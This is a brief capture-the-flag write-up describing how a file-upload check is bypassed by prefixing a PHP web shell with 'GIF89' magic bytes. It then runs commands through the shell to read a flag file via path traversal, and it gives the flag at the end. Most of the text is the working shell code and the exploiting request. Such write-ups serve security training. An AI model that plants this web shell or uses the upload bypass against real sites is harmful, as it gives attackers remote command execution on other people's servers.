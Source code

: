 Upload php shell and change the content to this (in short, add `GIF89` in the body content).
This will treat the request body as GIF file and will get uploaded to server.
```
GIF89
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

After that, it is just a `LFI`.
Request to: `GET /uploads/shell.php?cmd=cat+../../../../flag.txt` and you will get the flag.

Flag: `bucket{1_h4t3_PHP}`
